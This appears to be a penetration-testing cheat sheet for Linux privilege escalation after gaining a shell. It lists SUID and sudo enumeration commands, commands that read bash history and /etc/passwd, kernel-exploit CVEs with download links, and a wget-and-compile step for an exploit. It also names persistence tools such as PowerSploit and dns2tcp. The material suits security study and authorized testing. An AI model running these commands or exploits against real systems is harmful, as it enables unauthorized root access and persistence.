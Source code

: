 
INPUT: Stablished shell
PROCESS:
- Privilege Escalation
    - Manual Vector Finding
        - find / -perm /4000 2>/dev/null
        - find / -type f -user root -perm -u=s 2>/dev/null
        - find / -perm -u=s -type f 2>/dev/null
        - sudo -l
        - sudo -V
        - cat .bash_history
        - cat /etc/passwd
    - Auto Vector Finding
        - linpeas.sh
- Maintain Access
TOOLS
- Kernel Exploit
    - CVE-2017-16995
    - CVE-2021-4034
- GTFOBins
    - find
    - vim
    - sudo
- Python Library Hijacking
OUPUT: 
- root shell


## Privilege Escalation
[cve-2017-16995]
    wget https://www.exploit-db.com/download/45010 -O cve-2017-16995.c
    gcc --static cve-2017-16995.c -o cve-2017-16995
[CVE-2021-4034]
    https://www.exploit-db.com/exploits/50689
    https://github.com/ryaagard/CVE-2021-4034
    https://github.com/c3c/CVE-2021-4034
[GTFOBins]
    https://gtfobins.github.io/

## Maintain Access
- PowerSploit
- Weewly
- dns2tcp



